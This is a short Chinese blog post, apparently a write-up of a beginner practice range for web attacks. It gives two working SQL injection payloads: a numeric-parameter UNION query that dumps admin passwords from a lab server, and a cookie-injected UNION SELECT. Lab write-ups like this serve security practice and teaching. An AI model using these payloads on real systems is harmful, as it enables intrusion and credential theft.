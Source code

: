 ```yaml
---
title: 封神台靶场WP
author: Troy3e
avatar: 'https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/41414542.jpg'
authorAbout: steamID：888007034
authorDesc: Blizzard：TroyeSivan#51769
categories: 技术
comments: true
date: 2021-01-21 20:33:08
authorLink:
tags:
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/thumb-1920-1126004.jpg
---
```

一个比较基础的靶场，记录一下做题过程。

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210121203731.png)

第一章
一个没过滤的sql注入

最终payload：http://59.63.200.79:8003/?id=1%20and%201=2%20union%20select%201,group_concat(password)%20from%20admin

数字型的比较少见，因为不像单引号型那样有引号'分割开，所以要加上1 and 1=2，1=2的原因和单引号型前面0'是一个道理，就不细说了。

第二章
这关卡了。。。一直想的绕过waf但是绕不过。。
看了wp发现是在cookie里面注。。。

171%20union%20select%201,2,3,4,5,6,7,8,9,10%20from%20admin

第三章
拿了flag一直显示不对。。。
不做了

这靶场感觉质量一般般，不建议打。